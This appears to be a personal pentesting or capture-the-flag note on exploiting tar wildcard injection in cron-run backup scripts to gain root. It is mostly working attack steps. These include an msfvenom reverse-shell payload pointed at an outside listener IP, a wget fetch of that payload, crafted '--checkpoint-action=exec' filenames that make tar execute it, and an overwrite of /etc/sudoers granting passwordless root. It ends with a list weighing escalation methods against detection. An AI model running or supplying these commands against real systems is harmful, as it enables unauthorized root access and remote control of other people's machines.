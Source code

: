 
When tar is run in a script that is run for example by a cron job and it has a `*`:

Example script:
```sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

```sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

If we put a reverse shell command in a file, for example:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.21.236 LPORT=444 -f elf -o revsh444.elf`
or a script or whatever.

put it in the directory
`wget 10.18.21.236/shells/revsh444.elf`

to validate the file can run on the box you can run it yourself :)

set is as executable:
`chmod +x ./shell.elf`

And also make files to emulate the options to tar to run a file like this:
`touch ./--checkpoint=1`
`touch ./--checkpoint-action=exec=revsh444.elf`

Alternative to elf

`echo 'myaccount ALL=(root) NOPASSWD: ALL' > /etc/sudoers`

`echo "" > '--checkpoint-action=exec=bash sudoer.sh'`
`touch ./'--checkpoint-action=exec=bash sudoer.sh'`

<font color="red">Note: the sh (or bash) adds current directory to the path while tar does not - Meaning we <b>NEED the sh/bash</b> here!</font>

When the script is run it will run our executable!

touch ./--checkpoint-action=exec=./revsh444.elf

if you need to delete the -- files use:
`rm -i ./*`

---

detection - which is best?
- adding executable and running it
- +s bash
- make copy of bash and +s
- adding our account to sudoers (requres actually chmoding first)
- bash rev shell
